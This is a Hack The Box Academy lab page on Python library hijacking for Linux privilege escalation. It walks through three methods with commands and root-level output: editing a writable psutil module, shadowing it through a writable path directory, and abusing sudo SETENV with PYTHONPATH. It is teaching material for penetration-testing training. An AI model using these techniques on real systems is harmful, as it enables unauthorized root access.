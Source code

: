 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/51/section/1640
// Platform Version: V1
// Module ID: 51
// Module Name: Linux Privilege Escalation
// Module Difficulty: Easy
// Section ID: 1640
// Section Title: Python Library Hijacking
// Page Title: Linux Privilege Escalation
// Page Number: 23
-->

# Python Library Hijacking

**Module Name:** Linux Privilege Escalation **Page Number:** 23

#### LINUX PRIVILEGE ESCALATION

# Python Library Hijacking

#### Importing Modules

``` python
#!/usr/bin/env python3

# Method 1
import pandas

# Method 2
from pandas import *

# Method 3
from pandas import Series
```

## Wrong Write Permissions

#### Python Script

``` shell-session
htb-student@lpenix:~$ ls -l mem_status.py

-rwsrwxr-x 1 root mrb3n 188 Dec 13 20:13 mem_status.py
```

#### Python Script - Contents

``` python
#!/usr/bin/env python3
import psutil

available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total

print(f"Available memory: {round(available_memory, 2)}%")
```

#### Module Permissions

``` shell-session
htb-student@lpenix:~$ grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/*

/usr/local/lib/python3.8/dist-packages/psutil/__init__.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_psaix.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_psbsd.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_pslinux.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_psosx.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_pssunos.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_pswindows.py:def virtual_memory():


htb-student@lpenix:~$ ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py

-rw-r--rw- 1 root staff 87339 Dec 13 20:07 /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
```

#### Module Contents

``` python
...SNIP...

def virtual_memory():

	...SNIP...
	
    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
```

#### Module Contents - Hijacking

``` python
...SNIP...

def virtual_memory():

	...SNIP...
	#### Hijacking
	import os
	os.system('id')
	

    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
```

#### Privilege Escalation

``` shell-session
htb-student@lpenix:~$ sudo /usr/bin/python3 ./mem_status.py

uid=0(root) gid=0(root) groups=0(root)
uid=0(root) gid=0(root) groups=0(root)
Available memory: 79.22%
```

## Library Path

#### PYTHONPATH Listing

``` shell-session
htb-student@lpenix:~$ python3 -c 'import sys; print("\n".join(sys.path))'

/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```

#### Psutil Default Installation Location

``` shell-session
htb-student@lpenix:~$ pip3 show psutil

...SNIP...
Location: /usr/local/lib/python3.8/dist-packages

...SNIP...
```

#### Misconfigured Directory Permissions

``` shell-session
htb-student@lpenix:~$ ls -la /usr/lib/python3.8

total 4916
drwxr-xrwx 30 root root  20480 Dec 14 16:26 .
...SNIP...
```

#### Hijacked Module Contents - psutil.py

``` python
#!/usr/bin/env python3

import os

def virtual_memory():
    os.system('id')
```

#### Privilege Escalation via Hijacking Python Library Path

``` shell-session
htb-student@lpenix:~$ sudo /usr/bin/python3 mem_status.py

uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
  File "mem_status.py", line 4, in <module>
    available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total
AttributeError: 'NoneType' object has no attribute 'available'
```

## PYTHONPATH Environment Variable

#### Checking sudo permissions

``` shell-session
htb-student@lpenix:~$ sudo -l 

Matching Defaults entries for htb-student on ACADEMY-LPENIX:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ACADEMY-LPENIX:
    (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
```

#### Privilege Escalation using PYTHONPATH Environment Variable

``` shell-session
htb-student@lpenix:~$ sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py

uid=0(root) gid=0(root) groups=0(root)
...SNIP...
```

# 

# 

#### Questions

####
